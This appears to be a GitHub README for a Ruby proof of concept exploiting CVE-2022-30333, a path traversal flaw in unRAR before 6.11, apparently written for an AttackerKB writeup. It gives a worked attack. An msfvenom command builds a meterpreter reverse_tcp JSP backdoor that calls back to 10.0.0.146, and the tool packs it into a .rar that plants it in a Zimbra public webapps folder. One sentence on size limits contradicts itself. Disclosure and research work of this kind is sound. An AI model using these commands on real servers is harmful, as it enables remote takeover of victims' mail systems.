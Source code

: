 A proof of concept for CVE-2022-30333 - a path traversal vulnerability in unRAR
versions prior to 6.11. I created this as a demonstration of the exploit for
an AttackerKB writeup, and hope to incorporate it in a Metasploit Module soon!

Basically, you provide a target (including path traversal) and some file data,
and this tool will generate a .rar that will extract that file to that location.
The maximum file length is 104 bytes, and the maximum file length is 4096 bytes.
(That's not intrinsic to the vulnerability, it's just what I chose when I
generated the file).

For example, generate a backdoor with `msfvenom`:

```
$ msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=10.0.0.146 -f jsp -o payload.jsp
```

Then create a .rar file, planting the .jsp somewhere fun:

```
$ ruby ./cve-2022-30333.rb '../../../../../../../../../../../opt/zimbra/jetty_base/webapps/zimbra/public/backdoor.jsp' ./payload.jsp > file.rar
```
